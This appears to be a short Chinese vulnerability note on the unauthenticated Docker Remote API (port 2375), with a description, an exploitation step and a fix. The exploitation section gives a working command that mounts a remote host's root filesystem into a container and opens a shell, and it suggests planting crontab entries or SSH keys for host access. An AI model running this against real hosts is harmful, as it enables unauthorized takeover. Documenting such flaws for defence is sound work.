

### 一 漏洞描述
docker 在使用集群管理(如:Kubernetes,swarm)时，要使用remote api对节点进行管理。  
remote api无认证时的默认端口是2375(需要TLS认证默认登录是2376)。  
remote api默认是可以不需要认证能直接访问，能直接对docker进行操作,如新建容器,删除容器,查看镜像容器信息等操作。

### 二 漏洞利用
远程直接挂载
```
docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

写crontab或写.ssh秘钥获取宿主权限


### 三 漏洞修复
限制本机访问

> 参考链接  
> http://t.zoukankan.com/devi1-p-13486411.html  
> https://blog.csdn.net/weixin_39531582/article/details/110412285
